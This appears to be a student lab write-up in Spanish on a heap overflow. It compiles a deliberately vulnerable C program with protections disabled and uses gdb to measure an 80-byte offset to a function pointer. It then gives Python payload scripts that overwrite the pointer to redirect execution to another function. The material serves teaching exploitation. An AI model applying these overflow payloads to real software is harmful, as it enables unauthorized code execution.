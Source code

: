 # Heap Overflow

Alberto Miguel Diez - amigud00 [at] estudiantes [d0t] unileon [d0t] es

## 1. Compilación del programa

Para compilar el programa se debe utiliar el siguiente comando:

```bash
gcc heapexample.c -w -g -no-pie -z execstack -o heapexample
```

En la siguiente imagen se puede comprobar la ejecución del programa con algunos argumentos. Se puede ver que la segunda ejecución da _Segmentation fault (core dumped)_ pues se pasan 101 caracteres cuando el buffer solo puede almacenar 64. Esto significa que no se controla la entrada en el código.

![Alt text](img/compilacion_ejecucion.png)

## 2. Examinar el funcionamiento del código

El objetivo en este paso es comprobar como está el mapa de memoria del programa. Para ello se ejecuta el comando _info proc map_ en gdb. Como input al programa se pasa la cadena `XXXX` que en hexadecimal es `0x58585858`.

```bash
gdb ./heapexample
(gdb) list 25,40
(gdb) b 38
(gdb) run XXXX
(gdb) info proc map
```

En la siguiente imagen se puede observar el mapa de memoria de la aplicación. En mi caso, la pila va de la posición `0x405000` a la `0x426000`.

![Alt text](img/info_proc_map.png)

A continuación, consulto la dirección de memoria `0x405000` para comprobar dónde se guarda la información de las estructuras para las que reserva memoria el programa.

```bash
(gdb) x/240x 0x405000
```

![Alt text](img/heap_state.png)

En la imagen anterior se observa que en la posición `0x4052a0` se encuentra en hexadecimal el _input_ `XXXX`.

Posteriormente, realizo el desensamblado de la función `f_espero_fuera` utilizando la herramienta gdb y con el siguiente comando:

```bash
(gdb) disassemble f_espero_fuera
```

Se puede comprobar que la funciónn comienza en la posición de memoria `0x4011ad`. Esto implica que en el mapa de la pila se debe observar esta posición de memoria pues a la que apunta `f->fp` (se encuentra en la posición `0x4052f0` del _heap_).

![Alt text](img/disassemble.png)

## 3. Creación de un script

Utilizando Python se va a crear un script que ayude a generar una entrada para generar un _heap overflow_.

```python
#!/usr/bin/python

print 'X' * 90
```

Este script da error al ejecutarlo pues se completa el buffer de entrada.

## 4. Modificación del registro rip

Se va a modificar el registro rip, este almacena la dirección de memoria de la próxima instrucción que se debe ejecutar en un programa. Para ello voy a insertar en la posición de memoria `0x4052f0` (donde se encuentra el puntero a la función) el valor `0x46454443`.

Primero calculo la distancia entre la posición de memoria `0x4052a0` donde se empieza a almacenar el buffer de entrada y la `0x4052f0`. Por lo tanto, `0x4052f0` - `0x4052a0` = `0x50`. Este valor en decimal es `80`, es decir, hay 80 bytes de distancia entre ambas posiciones de memoria. Por lo tanto, hay que completar con 80 bytes y posteriormente insertar el valor `0x46454443` (CDEF en código ASCII).

```python
#!/usr/bin/python

print 'X' * 80 + 'CDEF'
```

En la siguiente imagen se puede comprobar que se modificado correctamente el registro rip.

![Alt text](img/rip_modificado.png)

## 5. Obtener dirección de memoria f_entrar

La función que queremos ejecutar se encuentra en la posición de memoria `0x00401196`.

![Alt text](img/disassemble_f_entrar.png)

## 6. Shellcode

El scrip desarrollado es el siguiente:

```python
#!/usr/bin/python

print 'X' * 80 + '\x96\x11\x40\x00'
```

**Importante: Tener en cuenta el Endian**

En la siguiente imagen se puede comprobar que se ha realizado el shellcode correctamente.

![Alt text](img/done.png)
